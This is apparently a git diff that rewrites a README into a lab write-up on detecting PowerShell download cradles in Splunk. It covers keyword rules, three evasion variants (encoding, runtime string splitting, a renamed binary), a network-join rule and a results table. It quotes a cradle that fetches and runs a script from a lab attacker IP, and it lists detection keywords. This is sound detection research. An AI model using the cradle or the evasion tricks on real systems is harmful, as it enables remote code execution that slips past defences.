

D02: final evidence, exact config bytes, index status

diff --git a/README.md b/README.md
@@ -1,121 +1,139 @@
-# Detection Engineering and Attack Chain Evaluation in an Active Directory SOC Environment
+# D02: Detecting PowerShell download cradles (T1059.001)
 
-A security operations project. I build a realistic SOC environment around an Active Directory domain, then use it to measure how well open-source detection tooling catches real adversary techniques: across two SIEMs, through full attack chains, under evasion, and through incident response.
+**Author:** Mohamed Amine BAHRI · **Status:** lab-validated in Splunk, Wazuh port pending · **Updated:** 2026-11-07
 
-Each detection is treated as a tested hypothesis, with positive and negative tests, resilience studies against controlled evasion, and documented limitations. The goal is an honest measurement of detection coverage and its gaps.
+A download cradle is one line of PowerShell that fetches a script from a server and runs it in memory:
 
-> EURECOM semester project, Fall 2026. Security in Computer Systems and Communications. Supervisor: Aurélien Francillon.
+```powershell
+IEX (New-Object Net.WebClient).DownloadString('http://192.168.10.250/marker.ps1')
+```
 
-**Current work:** the first detection, D01 (Suspicious LSASS Access, T1003.001), is documented end to end in [`analytics/D01-lsass-access`](./analytics/D01-lsass-access/README.md): four execution variants against four Sysmon telemetry types, a tuned Sigma rule, a measured baseline, and stated limitations. It is the worked example of the methodology below.
+The question for this lab: which detections still work once an attacker starts hiding that line? (Summary table at the end.) Short answer: keyword rules are beaten by simple obfuscation. A rule on the network connection catches every variant I tested, but only after fixing a Sysmon collection problem, and it still needs context to be worth alerting on.
 
----
+## Setup
 
-## Objectives
+| | |
+|---|---|
+| Endpoint | Target-PC `192.168.10.100`, Windows 10 Pro 22H2 (19045.6456), Windows PowerShell 5.1 |
+| Attacker | Kali `192.168.10.250`, `python3 -m http.server 80` |
+| Telemetry | Sysmon 15.22 (olafhartong balanced profile, frozen in D01) and PowerShell script-block logging (EID 4104), enabled for this lab and checked end to end with a known-innocent script |
+| SIEM | Splunk, index `endpoint` |
 
-1. Deploy a realistic SOC lab: Active Directory, endpoint telemetry, two SIEMs for comparison, and a case-management stack for incident response.
-2. Engineer detections (Sigma) across multiple MITRE ATT&CK tactics, deployed and validated in both SIEMs.
-3. Design and execute multi-step attack scenarios and evaluate per-step detection: what fired, what was missed, where the gaps are.
-4. Test detection resilience by modifying attacks to evade working rules, then improving the rules.
-5. Take selected scenarios through a full incident response workflow, with IOC enrichment and SOC automation.
-6. Produce a detection-coverage analysis (ATT&CK Navigator) and a Wazuh vs. Splunk comparative evaluation.
+The payload appends a unique line to a marker file on the victim. A new line means the code really ran, not just downloaded.
 
----
+In the final pass (2026-11-02) I launched every run through a small wrapper around `Start-Process -PassThru`, which returns the child's PID. From the PID I took the child's Sysmon `ProcessGuid`, and every result below is filtered on that GUID. That keeps earlier test runs and the PowerShell window I launched them from out of the results.
 
-## Lab environment
+## 1. Content rules
 
-| Component | Role | Status |
-|---|---|---|
-| Windows Server (Domain Controller) | Active Directory domain `amine.local` (NetBIOS `AMINE`), DNS | built |
-| Windows 10 (`Target-PC`) | Domain-joined workstation (monitored endpoint) | built |
-| Sysmon | Endpoint telemetry on Windows hosts | done |
-| Splunk (Ubuntu) | SIEM 1, log collection and detection | built |
-| Kali Linux | Attack machine | built |
-| Atomic Red Team | Attack simulation, mapped to ATT&CK | done |
-| Wazuh | SIEM 2, for comparative detection analysis | planned |
-| TheHive + Cortex | Case management and IOC enrichment (incident response) | planned |
-| Suricata (200h extension) | Network-level IDS for host and network correlation | stretch |
+The obvious first move is to look for the cradle's words.
 
-Full architecture and network diagram: [`/architecture`](./architecture).
+- **D02-A** (Sysmon EID 1, process creation): a PowerShell process, by image path or `OriginalFileName`, whose command line contains `DownloadString`, `IEX`, `-enc` or `FromBase64String`.
+- **D02-B** (EID 4104, script-block logging): a script block containing `DownloadString`, `Net.WebClient`, `IEX`, `Invoke-Expression` or `FromBase64String`.
 
----
+Both fire on the plain cradle (V1). The next step was to see what breaks them.
 
-## Methodology
+## 2. Breaking them
 
-Every detection ("analytic") is developed to a fixed definition of done:
+I ran three transformations of the same cradle:
 
-1. Detection hypothesis: what behaviour is suspicious and why (a narrow, defensible claim).
-2. Data contract: required log channels, event IDs, fields, audit and sensor config, verified before writing the rule.
-3. Executable rule: Sigma, converted to both SIEMs.
-4. Positive tests: controlled attack variants.
-5. Negative tests: benign activity that exercises similar signals.
-6. Results: expected vs. actual, with evidence.
-7. Limitations: known misses and weak conditions.
-8. Triage guidance: what an analyst checks next.
+- **V2** sends the whole command base64-encoded with `-enc`.
+- **V3** builds every keyword at runtime: `'Net.We'+'bClient'`, and `[char]73+[char]69+[char]88` for `IEX`.
+- **V4** copies `powershell.exe` to `%TEMP%\winupdate.exe` and runs the copy.
 
-Attack outcomes are classified precisely (prevented, executed and detected, executed and missed, telemetry absent) because they mean very different things.
+**V2** splits the two rules. D02-A only matches the `-enc` flag: it knows something was encoded, not what. D02-B sees the full cradle, because PowerShell decodes the command before logging it. Encoding hides the command line, not the script block.
 
----
+**V4** changes the image name, so D02-A's `\powershell.exe` clause misses. It still matches on `OriginalFileName`, which comes from the binary's own metadata and stays `PowerShell.EXE` after a rename. That is why the rule checks image **or** original file name.
 
-## Project phases
+**V3** beats both rules. No keyword exists as literal text in either log. The events are there: searching for fragments the rules don't use (`Net.We`, `char]73`, the IP) finds them. The miss is in the rule, not in the data. PowerShell logged the script block as written, with the pieces still split apart.
 
-| Phase | Work | Status |
-|---|---|---|
-| 1. Lab infrastructure | AD, Sysmon, Splunk, Kali, Atomic Red Team | done |
-| | Wazuh (second SIEM), TheHive + Cortex | planned |
-| 2. Detection engineering | Sigma rules across ATT&CK tactics, deployed to both SIEMs | active |
-| 3. Attack chains | Multi-step scenarios, per-step detection evaluation | planned |
-| 4. Resilience / evasion | Bypass own rules, analyse, improve, regression-test | planned |
-| 5. Incident response and automation | Full cases in TheHive, IOC enrichment, Python automation, SOAR | planned |
-| 6. Analysis and reporting | ATT&CK Navigator coverage heatmap, Wazuh vs. Splunk comparison, report | planned |
+Keyword lists can be extended, but V3 shows that whoever writes the cradle controls the text. I needed a signal the attacker cannot rewrite.
 
-The project is currently in Phase 2. Detection analytics are built Splunk-first, then re-deployed and compared on Wazuh in Phase 6.
+## 3. Detecting the connection
 
----
+**The idea.** Whatever its syntax, the cradle has to connect to the server. Sysmon logs each connection (EID 3) with the `ProcessGuid` of the process that made it. **D02-C** joins the connection to that process's creation event (EID 1) on the GUID and keeps processes whose `OriginalFileName` is `PowerShell.EXE`. Obfuscation and renaming change nothing here.
 
-## Scope, detections
+**The problem.** The first attempt found nothing for the cradles. Sysmon had seen the connections, but logged them with `Image = <unknown process>` (stored in Splunk as `&lt;unknown process&gt;`), and the D01 config only keeps network events whose image is on an include list, so it dropped them. Varying only how long the process lived, a cradle that exits in under a second came out unattributed and a long-running PowerShell came out normally. I report this as observed behaviour, consistent with sensitivity to process lifetime, without claiming a cause. In the final pass, V2 and V4 were unattributed.
 
-8 detections and 2 correlations, with 4 resilience studies against the strongest detections.
[1 lines of base64/hex data omitted]
 
-| ID | Objective | ATT&CK | Tactic | Status |
+Limits:
+
+- Collection is part of the detection: it fails under the D01 config. In production, scope collection by destination (external, rare) rather than keeping everything.
+- It needs the attack to connect out, and a connection is a lead, not proof that code ran.
+- It only covers processes identified as `PowerShell.EXE` (not PowerShell 7), on one host at a time (`ProcessGuid` is per machine).
+
+## 4. From detection to alert
+
+PowerShell connects out all the time in normal administration, so D02-C alone is too noisy to alert on. The combined search (`rule-combined.spl`) keeps D02-C's join and adds three context conditions:
+
+- `cond_content`: the command line matches `downloadstring`, `iex`, `invoke-expression`, `frombase64string`, `webclient` or `-enc`;
+- `cond_renamed`: the process image (from EID 1) is not named `powershell.exe`, while `OriginalFileName` says it is PowerShell;
+- `cond_parent`: the parent is Office or a script host (`winword`, `wscript`, `mshta`...). Not exercised: every run had a PowerShell parent.
+
+Any condition true gives **ALERT**. None gives **HUNT: egress only**, a lead for an analyst.
+
+Each row below is one run, matched by `ProcessGuid`. **Marker** is what actually happened: +1 means the payload ran, 0 means it did not. **Verdict** is what the search said. The last row is a control run that downloads the script without executing it. Times are the Sysmon EID 1 events; all runs as `AMINE\Administrator`.
+
+| Run | Time | PID | ProcessGuid | Marker | Verdict | Driver |
+|---|---|---|---|---|---|---|
+| V1 clear | 12:37:07 | 7108 | `{cdeca043-75e3-6ae8-4601-000000004b00}` | +1 | ALERT | content |
+| V2 encoded | 12:37:18 | 7064 | `{cdeca043-75ee-6ae8-4e01-000000004b00}` | +1 | ALERT | content (`-enc`) |
+| V3 obfuscated | 12:37:28 | 6816 | `{cdeca043-75f6-6ae8-5001-000000004b00}` | +1 | HUNT | none |
+| V4 renamed | 12:37:33 | 3852 | `{cdeca043-75fd-6ae8-5201-000000004b00}` | +1 | ALERT | renamed + content |
+| Control: download only | 12:46:37 | 6392 | `{cdeca043-781d-6ae8-bb01-000000004b00}` | 0 | ALERT | content |
+
+Two rows are the point of this table.
+
+**V3 ran, and the search only raised a hunt lead.** The variant the content rules miss is also the one the combined search does not alert on. That is a deliberate trade-off, since alerting on any PowerShell egress would bury real alerts, but it is still a gap.
+
+**The control run executed nothing, and the search alerted.** `downloadstring` alone satisfies `cond_content`, so the condition fires on a download, not specifically on download-and-execute.
+
+D02-B is not in this search. A 4104 event has no `ProcessGuid`, only a process ID, and attributing by PID is messier than it looks: the PowerShell window that launches the cradle logs its own command line with the same keywords, and half of D02-B's final-pass hits came from my launcher window. That second join is left for a later version.
+
+## Summary
+
+| Variant | A: command line | B: script block | C: network | Combined |
 |---|---|---|---|---|
-| D01 | Suspicious LSASS access | T1003.001 | Credential Access | complete (Splunk) |
-| D02 | Suspicious PowerShell execution | T1059.001 | Execution | planned |
-| D03 | Suspicious service-ticket requests (Kerberoasting) | T1558.003 | Credential Access | planned |
-| D04 | Suspicious remote service execution | T1021.002 / T1569.002 | Lateral Movement | planned |
-| D05 | Suspicious account privilege assignment | T1098 | Persistence | planned |
-| D06 | Suspicious scheduled-task creation/modification | T1053.005 | Persistence / Execution | planned |
-| D07 | NTDS.dit extraction via shadow copy | T1003.003 | Credential Access | planned |
-| D08 | Security-monitoring / protection tampering | T1562.001 | Defense Evasion | planned |
-| C01 | Account creation then privilege assignment | | correlation | planned |
-| C02 | Credential access then remote execution | | correlation | planned |
+| V1 clear-text | HIT | HIT | HIT | ALERT |
+| V2 encoded (`-enc`) | HIT (on `-enc`) | HIT (decoded) | HIT | ALERT |
+| V3 obfuscated | MISS | MISS | HIT | HUNT lead |
+| V4 renamed | HIT (`OriginalFileName`) | HIT | HIT | ALERT |
 
-Resilience studies: D01, D02, D03, D04.
-Stretch: remote-thread injection (T1055); Pass-the-Hash or Pass-the-Ticket (T1550).
+A and B are the content rules (section 1), C the network rule (section 3), Combined the search in section 4.
 
----
+The search keys on behaviour, not intent. An administrator running the same kind of one-liner (Chocolatey's installer follows this pattern) gets the same alert. A false-positive rate needs real traffic, which I did not measure. Tuning should use narrow exceptions for known workflows, never an allowlist for the pattern.
 
-## Deliverables
+## Defender
 
-- Working dual-SIEM SOC lab (AD, Sysmon, Splunk, Wazuh, TheHive, Cortex)
-- Sigma detection rules with ATT&CK mapping and test results across both SIEMs
-- Multi-step attack scenario analyses with per-step detection evaluation
-- Resilience and evasion results with improved rules
-- Incident response cases documented in TheHive
-- Python automation scripts for SOC workflows
-- ATT&CK detection-coverage heatmap (Wazuh vs. Splunk)
-- Written project report
+Defender was on. It blocked the V3 code when launched as `-Command { }`, which PowerShell passes as `-encodedCommand`, but not as `-c "string"`, so V3 is measured in the `-c` form. It blocked V4 several times on Nov 1 and let it run on Nov 2, after `-nop -w hidden` had been added and its signatures had updated; I did not test which change mattered. The Nov 1 V4 screenshots were taken with real-time protection off.
 
----
+## Limits and next steps
 
-## Repository layout
+- Keyword matching is brittle: `-enc` misses the shorter forms `-e` and `-ec`.
+- Not tested: AMSI; a downgrade to PowerShell v2, which has no script-block logging; and PowerShell run inside another program. PowerShell is a .NET library that any process can load, so no `powershell.exe` starts and D02-A and D02-C see nothing (D02-B still would, since script-block logging lives in the engine).
+- No realistic benign baseline: I did not measure how often normal admin PowerShell triggers these rules.
+- One workstation, one config, one Defender policy. Lab-validated, not production-ready.
 
-```
-analytics/           one folder per detection, each a full detection record
-correlations/        multi-stage detections
-resilience-studies/  evasion-and-improve experiments
-attack-chains/        multi-step scenario analyses
-incident-response/   TheHive case exports and investigation notes
-architecture/        lab setup and diagram
-scripts/             SOC automation (Python)
-reports/             coverage heatmap, SIEM comparison, final report
-```
+Next:
+
+- **Module logging (EID 4103) against V3.** This log records each command call with its parameter values after PowerShell evaluates them, so `'Net.We'+'bClient'` should appear as `Net.WebClient`. If it does, V3 becomes detectable by content again.
+- **Portability.** Write the combined search as a Sigma correlation rule and run it in Wazuh, the project's second SIEM.
+
+## Files
+
+- `rule.yml`, `rule-scriptblock.yml`: D02-A and D02-B in Sigma. `rule.spl`: both in SPL.
+- `rule-network.spl`: D02-C. `rule-combined.spl`: the combined search.
+- `sysmon-collectall-diag.xml`: the config D02-C and the combined search were validated under.
+- `evidence/`, development runs (Oct 30 to Nov 1):
+  - `A0-sbl-validation.png`, `A0-sbl-eventviewer.png`: script-block logging check, in Splunk and in the local log.
+  - `A1-D02A-sysmon.png`, `A1-D02B-scriptblock.png`: V1 against D02-A and D02-B.
+  - `A2-D02A-sysmon.png`, `A2-D02B-scriptblock.png`, `A2-encode-gen.png`: V2, and how the encoded command was built.
+  - `A3-execution.png`, `A3-D02A-miss.png`, `A3-D02B-miss.png`, `A3-telemetry-eid1.png`, `A3-telemetry-4104.png`: V3 ran, both rules miss, the events exist (process creation and script block).
+  - `A4-execution-rtp-off.png`, `A4-D02A-rename.png`, `A4-D02B.png`: V4, caught through `OriginalFileName`.
+  - `C-network-correlation-both.png`: D02-C catching V3 and V4.
+- `evidence/`, final pass (Nov 2):
+  - `C-diagnostic-unknownprocess.png`: the four runs, with the `<unknown process>` connection events on V2 and V4.
+  - `scriptblock-final-pass.png`: D02-B hits with process ID, separating the child processes from the launcher window.
+  - `combined-capstone-1.png`, `combined-capstone-2.png`: the combined search on the four variants and the control run (left and right halves of the same result).
+
+Sysmon config based on olafhartong's [sysmon-modular](https://github.com/olafhartong/sysmon-modular). Technique: [MITRE ATT&CK T1059.001](https://attack.mitre.org/techniques/T1059/001/).
